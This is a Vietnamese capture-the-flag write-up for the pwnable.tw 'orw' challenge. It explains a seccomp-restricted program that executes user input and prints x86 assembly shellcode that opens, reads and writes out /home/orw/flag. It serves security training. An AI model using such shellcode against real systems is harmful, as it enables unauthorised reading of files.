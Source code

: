# [pwnable.tw] - orw

<img src="./images/orw.png" alt="orw" width="500" height="300">

## A. CHALLENGE 

### [1] Binary Mitigations. 

- Đầu tiên ta kiếm tra các mitigations và xem thông tin cơ bản của file.

![checksec.png](./images/checksec.png)

- Chương trình 32-bit khá đơn giản, cho phép nhập một chuỗi đầu vào (là shellcode) và cuối hàm main thì gọi tới `function pointer` trỏ tới shellcode mà chúng ta đã nhập. 

![execute.png](./images/execute.png)

## B. OVERVIEW

### [1] Vulnerability Analysis.

- Phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write` để đọc flag, khi chúng ta nhập input là shellcode thì chương trình sẽ thực thi shellcode đó. 

![seccomp.png](./images/seccomp.png)

### [2] Idea Exploit.

- Chúng ta sẽ dùng **syscall_open** để mở file flag ở **/home/orw/flag** và dùng **syscall_read**, **syscall_write** để đọc và ghi flag ra **terminal**.
## C. EXPLOITATION

### [1] Stage 1: Shellcode

- Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành shellcode. 

```c
char *fn = “/home/orw/flag”;
sys_open(fn, 0, 0);
sys_read(3, fn, 0x30);
sys_write(1, fn, 0x30);
```

* __NOTE:__ Tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) chuyển asm => shellcode.


## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác:

![flag.png](./images/flag.png)
